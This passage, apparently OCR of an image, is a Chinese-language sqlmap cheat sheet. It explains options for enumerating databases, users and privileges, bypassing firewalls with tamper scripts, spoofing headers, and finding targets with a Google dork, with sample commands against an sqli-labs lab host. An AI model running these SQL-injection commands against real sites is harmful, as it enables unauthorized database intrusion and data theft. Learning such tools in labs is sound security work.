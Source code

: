 3.    --dbs         【检测站点包含哪些数据库

4.    --current-db    【获取当前的数据库名

5.    --current-user  【检测当前用户

6.    --is-dba   【判断站点的当前用户是否为数据库管理员

7.    --batch      【默认确认，不询问你是否输入

8.    --search  【后面跟参数 -D -T -C 搜索列（C），表（T）和或数据库名称（D）

9.    --threads 10  【线程，sqlmap线程最高设置为10

10.    --level 3        【sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头
                                  的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5
11.    --risk 3           【执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全

12.    -v   【详细的等级(0-6)
         0：只显示Python的回溯，错误和关键消息。
         1：显示信息和警告消息。
         2：显示调试消息。
         3：有效载荷注入。
         4：显示HTTP请求。
         5：显示HTTP响应头。
         6：显示HTTP响应页面的内容

13.    --privileges  【查看权限

14.    --tamper xx.py,cc.py   【防火墙绕过，后接tamper库中的py文件

15.    --method "POST" --data "page=1&id=2"   【POST方式提交数据

16.    --threads number　　【采用多线程 后接线程数

17.    --referer  ""  【使用referer欺骗

18.    --user-agent ""     【自定义user-agent

19.    --proxy “目标地址″   【使用代理注入

1.指定目标url

```
sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"
```

2.从文件中获取多个url

```
sqlmap -m 1.txt
```

3.从文件中加载HTTP请求

```
sqlmap -r  url.txt
```

4.利用google获取目标

```
sqlmap -g "inurl:\".php?id=1\""
```
